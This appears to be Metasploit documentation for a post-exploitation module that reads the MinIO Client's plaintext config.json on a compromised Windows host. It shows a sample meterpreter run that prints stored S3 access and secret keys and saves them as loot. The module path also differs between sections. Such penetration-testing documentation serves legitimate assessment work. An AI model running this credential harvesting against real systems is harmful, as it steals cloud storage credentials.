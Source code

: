 ## Vulnerable Application
[MinIO Client](https://dl.min.io/client/mc/release/)
The MinIO Client mc command line tool provides a modern alternative to UNIX commands like ls,
cat, cp, mirror, and diff with support for both filesystems and Amazon S3-compatible cloud storage services.
Its credential file is saved in the user's home directory in plaintext json.
## Installation Steps

  1. Download the latest installer of MinIO Client (https://dl.min.io/client/mc/release/).
  2. Run `mc alias set myminio https://play.min.io minioadmin minioadmin`.
  3. Run `mc admin info myminio`,check for working.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: `run post/multi/gather/minio_client`
  3. If the configuration file is found in the system, it will be printed out

## Options

### CONFIG_PATH

Specifies the config file path for MinIO Client (eg. `C:\Users\FireEye\mc\config.json`)

## Scenarios

```
meterpreter > run post/windows/gather/credentials/minio_client CONFIG_PATH="C:\Users\FireEye\mc\config.json"

[*] Parsing file C:\Users\FireEye\mc\config.json
MinIO Client Key
================

name     url                             accessKey             secretKey                                 api   path
----     ---                             ---------             ---------                                 ---   ----
gcs      https://storage.googleapis.com  YOUR-ACCESS-KEY-HERE  YOUR-SECRET-KEY-HERE                      S3v2  dns
local    http://localhost:9000                                                                           S3v4  auto
myminio  https://play.min.io             minioadmin            minioadmin                                s3v4  auto
play     https://play.min.io             Q3AM3UQ867SPQQA43P2F  zuf+tfteSlswRu7BJ86wekitnifILbZam1KYY3TG  S3v4  auto
s3       https://s3.amazonaws.com        YOUR-ACCESS-KEY-HERE  YOUR-SECRET-KEY-HERE                      S3v4  dns

[+] Session info stored in: /home/kali-team/.msf4/loot/20221206193240_default_172.16.153.128_host.minio_756923.txt
```
